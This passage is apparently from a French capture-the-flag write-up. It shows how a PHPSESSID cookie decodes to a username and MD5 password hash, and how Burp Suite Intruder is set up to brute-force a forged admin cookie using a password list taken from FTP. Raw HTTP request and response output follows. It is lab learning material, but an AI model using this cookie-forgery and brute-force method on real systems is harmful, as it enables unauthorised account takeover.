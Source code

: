 Dans BurpSuite, grace au fait que quand on surligne, il décode automatiquement, je constate que le cookie PHPSESSID:
```
Cookie: PHPSESSID=dGVzdDpjYzAzZTc0N2E2YWZiYmNiZjhiZTc2NjhhY2ZlYmVlNQ%3D%3D
```
est encoder en URL
```
Cookie: PHPSESSID=dGVzdDpjYzAzZTc0N2E2YWZiYmNiZjhiZTc2NjhhY2ZlYmVlNQ==
```
puis en base64
```
test:cc03e747a6afbbcbf8be7668acfebee5
```
Le hash du mdp est en MD5 lui.

Après de looooooooooooongue recherche car je ne savais pas comment faire ! Je trouve un moyen de le bruteforce avec BurpSuite:

J'ouvre la page admin et capture la requete avec burpsuite, ensuite je l'envoi vers l'intruder.

Dans l'onglet **payload**, je met la liste de mot de passe que j'ai pris sur le FTP et configure burpsuite comme ceci:
Dans **PAYLOAD PROCCESSING** :
```
Hash:md5
Add Prefix: admin:
Base64-encode
```
Donc, on lui indique que le hash est en md5, qu'il doit ajouter le préfix **admin:** et qu'il encoder en base64 avant de test
Donc le cookie PHPSESSID sera comme ceci :
```
PHPSESSID=admin:PASSWORD_EN_MD5
```
Et on trouve la page admin grace a la taille de la réponse qui est bien plus grosse que d'habitude :
```
GET /administration.php HTTP/1.1
Host: 10.10.211.179
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: PHPSESSID=YWRtaW4[...REDACTED...]U%3d
Upgrade-Insecure-Requests: 1
```
```
HTTP/1.1 200 OK
Date: Thu, 02 May 2024 10:33:56 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 864
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8


<html>
<head>
    <title>Administration Page</title>
</head>

[...]
```